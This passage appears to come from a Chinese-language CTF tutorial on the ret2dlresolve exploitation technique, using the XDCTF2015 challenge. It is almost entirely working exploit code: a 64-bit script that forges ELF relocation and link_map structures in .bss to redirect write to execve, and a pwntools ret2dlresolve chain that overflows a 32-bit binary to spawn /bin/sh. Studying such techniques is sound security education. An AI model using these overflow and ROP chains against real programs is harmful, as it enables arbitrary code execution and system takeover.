    payload += p64(0) * 7
    return payload

dl          = 0x400506
DT_STRTAB   = 0x600EA0
csu_part1	= 0x400780
csu_part2	= 0x400796
bss_addr	= elf.bss() + 0x30
read_got	= elf.got['read']
write_got   = elf.got['write']
vuln_addr	= elf.symbols['vuln']
offset		= libc.symbols['execve'] - libc.symbols['write']
l_addr      = offset

if l_addr < 0:  
   l_addr = l_addr + 0x10000000000000000

p.recvuntil('Welcome to XDCTF2015~!\n')

# 伪造各个节
payload1  = p64(6) + p64(write_got - 0x8 - 0x18)        # DT_SYMTAB
payload1 += p64(0x17) + p64(bss_addr + 0x8 * 4)         # JMPREL
payload1 += p64(write_got - offset) + p64(0x100000007) + p64(0) # Elf64_Rel
# 伪造link_map
payload2  = p64(l_addr)
payload2  = payload2.ljust(0x68, b'\x00')
payload2 += p64(DT_STRTAB)                              # 指向字符串表
payload2 += p64(bss_addr)                               # 指向伪造的Elf64_Sym
payload2  = payload2.ljust(0xF8, b'\x00')
payload2 += p64(bss_addr + 0x8 * 2)                     # 指向伪造的Elf64_Rel
# 合成最终payload
payload   = payload1 + payload2
payload   = payload.ljust(0x200, b'\x00')
payload  += b'/bin/sh\x00'

# 往bss中写入伪造数据
p.send(b'a' * 120 + csu(read_got, 0, bss_addr, len(payload)) + p64(vuln_addr))
p.send(payload)

# 调用_dl_resolve_call函数重定向write函数
p.send(b'a' * 120 + p64(dl) + p64(bss_addr + len(payload1)) + p64(0) + p64(vuln_addr))

# 执行strlen函数
p.send(b'a' * 120 + csu(write_got, bss_addr + 0x200, 0, 0) + p64(vuln_addr))

p.interactive()
```

#   使用pwntools工具
以main_partial_relro_32举例
```python
from pwn import *
context(arch='i386', os='linux', log_level='debug')
p	= process("./main_partial_relro_32")
elf	= ELF("./main_partial_relro_32")
rop	= ROP("./main_partial_relro_32")

p.recvuntil("Welcome to XDCTF2015~!\n")

dl = Ret2dlresolvePayload(elf, symbol = "system", args = ["/bin/sh"])
rop.read(0, dl.data_addr)
rop.ret2dlresolve(dl)

p.send(b'a' * 112 + rop.chain())
p.send(dl.payload)

p.interactive()
```
